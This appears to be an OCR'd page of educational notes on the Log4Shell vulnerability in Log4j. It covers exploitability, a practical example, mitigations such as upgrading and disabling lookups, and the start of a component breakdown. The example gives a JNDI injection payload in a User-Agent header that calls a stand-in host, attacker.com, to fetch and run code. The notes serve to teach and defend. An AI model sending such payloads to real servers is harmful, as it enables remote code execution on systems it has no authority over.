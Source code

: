     - How the attack reaches the vulnerable system. In this case, it’s through the logged input that triggers JNDI lookups.
7. **Exploitability**:
    
    - Measures how easily a vulnerability can be exploited. For this CVE, exploitation is simple because:
        - No special privileges are needed.
        - It can be triggered by sending data to a log.

---

### **Practical Example**

Imagine a web server that logs the `User-Agent` (browser type) header from HTTP requests. An attacker can send the following header:

```
User-Agent: ${jndi:ldap://attacker.com/malicious-code}
```

If the server uses a vulnerable version of Log4j, it will:

1. Parse the string.
2. Fetch and execute the malicious payload from `attacker.com`.

---

### **Defenses**

1. **Update Log4j**:
    
    - Upgrade to version 2.15.0 or later, which disables JNDI lookups by default.
2. **Disable JNDI Lookup**:
    
    - Set `log4j2.formatMsgNoLookups=true` as a temporary mitigation.
3. **Filter Input**:
    
    - Sanitize and validate user input, especially before logging it.
4. **Firewall Rules**:
    
    - Block outbound connections to untrusted domains to limit potential exploitation.

---

Let’s break these components down one by one, with their roles in Apache servers and how they contribute to the **Log4Shell** vulnerability.

---

### **1. Log4j**

#### **What it is**:

- Log4j is a **logging library** for Java applications.
- Used to create log files to track application events like errors, system usage, or debugging information.
- Widely used in enterprise software, including Apache servers, to manage logging in distributed systems.
